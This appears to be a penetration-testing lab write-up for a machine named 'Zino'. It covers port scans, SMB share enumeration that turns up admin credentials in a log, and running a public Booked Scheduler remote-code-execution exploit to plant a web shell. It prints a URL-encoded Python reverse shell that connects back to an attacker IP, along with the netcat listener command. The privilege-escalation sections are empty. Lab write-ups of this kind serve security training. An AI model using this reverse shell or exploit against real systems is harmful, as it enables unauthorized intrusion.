 ```yaml
---
description: 11-10-2022
---
```


# "Zino" (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b26675501b18f5e99fdb2cd4e3957a44 (RSA)
|   256 912d26f1baafd18b698f814a32af9c77 (ECDSA)
|_  256 ec6fdf8bce19138a52573e72a3146f40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions: 
|_    Host '192.168.49.81' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=11/10%Time=636D9BA7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOption
SF:s,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|   NetBIOS computer name: ZINO\x00
|   Domain name: \x00
|   FQDN: zino
|_  System time: 2022-11-10T19:47:50-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2022-11-11T00:47:51
|_  start_date: N/A
```

Enumerated UDP ports:

```
All 1000 scanned ports on 192.168.81.64 are in ignored states
```

Notes:

* 445/Samba enumeration -- Enum4Linux
* 8003/HTTP <mark style="color:yellow;">Apache 2.4.38 -- "Booked Scheduler" Web Application</mark>

## Enumeration

### Port 8003 - HTTP (Apache 2.4.38)-&#x20;

* I was able to create a new login and authenticate with those credentials
* Searchsploit revealed 3 authenticated RCE vulnerabilities that may come in handy later

```
searchsploit booked

Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directo | php/webapps/48428.txt
```

* I paid close attention to <mark style="color:yellow;">50594.py</mark>
  * Reason being: Python script -- familiar territory

### Port 445 - Samba&#x20;

Enum4Linux:

```
Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

[+] Attempting to map shares on 192.168.81.64                                    
                                                                                 
//192.168.81.64/zino    Mapping: OK Listing: OK Writing: N/A                     
//192.168.81.64/print$  Mapping: DENIED Listing: N/A Writing: N/A
```

We can access the <mark style="color:yellow;">zino</mark> share with <mark style="color:yellow;">smbclient</mark>:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* From here, I downloaded all of the files for further enumeration

<mark style="color:yellow;">Misc.log</mark>:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">admin</mark>:<mark style="color:yellow;">adminadmin</mark>

* I then logged into the web server with these credentials and we were now admin!
* Now that we have authentication, let's go back to the <mark style="color:yellow;">50594.py exploit</mark>

## Exploitation

### 50594.py -- <mark style="color:yellow;">Booked Scheduler 2.7.5 - Remote Command Execution</mark>&#x20;

```
python3 50594.py http://192.168.81.64:8003 admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://192.168.81.64:8003/booked/Web/custom-favicon.php?cmd=
```

* A web shell was created!

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

* My next goal was to establish further persistence with another reverse shell
* However, since we are still in a web shell, we need to URL encode the reverse shell

Cyber Chef:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

URL-Encoded Python Reverse Shell:

{% code overflow="wrap" %}
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.49.81%22%2C3306))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27%0A
```
{% endcode %}

* Start a nc listener on Kali -- <mark style="color:red;">`nc -lnvp 3306`</mark>
* Execute the reverse shell within the web shell and you will gain further persistence

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs

